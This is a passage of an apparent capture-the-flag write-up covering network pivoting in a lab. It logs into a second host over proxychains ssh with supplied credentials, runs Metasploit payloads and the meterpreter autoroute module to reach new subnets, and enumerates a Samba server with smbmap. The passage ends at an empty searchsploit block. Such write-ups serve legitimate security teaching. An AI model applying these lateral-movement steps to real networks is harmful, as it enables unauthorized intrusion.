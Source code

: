 
## # 7 Another Pivot
Instruction for this was "Connect to the second pivot IP: 10.112.3.12 User: crease Pass: NoThatsaV".

Since we already added the subnet of that IP from second box to our metasploit we can directly ssh to it via proxychains:
```bash
proxychains ssh crease@10.112.3.12
```
First flag was displayed in the welcome message.


## # 9 Samba
The instruction for this was "There is a samba server at 10.24.13.10, find a flag sitting in the root file system /"

If we check ifconfig from the 3rd box:
```bash
$ ifconfig eth2
eth2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.24.13.73  netmask 255.255.255.0  broadcast 10.24.13.255
        inet6 fe80::42:aff:fe18:d49  prefixlen 64  scopeid 0x20<link>
        ether 02:42:0a:18:0d:49  txqueuelen 0  (Ethernet)
        RX packets 2013918  bytes 130317522 (130.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2228547  bytes 168461419 (168.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
The ip address of the 3rd box belongs to the same subnet as that samba server. Again I used the same plan to deploy my msf binary like last two times and add autoroute so I can access that host.

I copied the binary like before on the target host, started listening again on the msfconsole, and ran the binary from second box to receive another msf session. Next from the newly received meterpreter session I again ran the `autoroute` module to add the subnets:
```bash
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module.
[*] Running module against 172.19.0.3
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.24.13.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 172.19.0.0/255.255.0.0 from host's routing table.
meterpreter > 
```
We now have access to that subnet as well and we can target the samba server directly from our host.
There was a hint given in the challenge that "nothing to find in the shares".
Next, I ran `smbmap` via proxychains:
```bash
root@ubuntu:~/defcon# proxychains smbmap -H 10.24.13.10
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.24.13.10:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.24.13.10:445-<><>-OK
[+] Guest session   	IP: 10.24.13.10:445	Name: 10.24.13.10                                       
   Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	myshare                                           	READ, WRITE	smb share test
	IPC$                                              	NO ACCESS	IPC Service (Samba Server Version 4.6.3)
root@ubuntu:~/defcon# 
```
I then tried many things but there was no success. Next the Samba version looked interesting so I searched the version in `searchsploit`:
```bash
```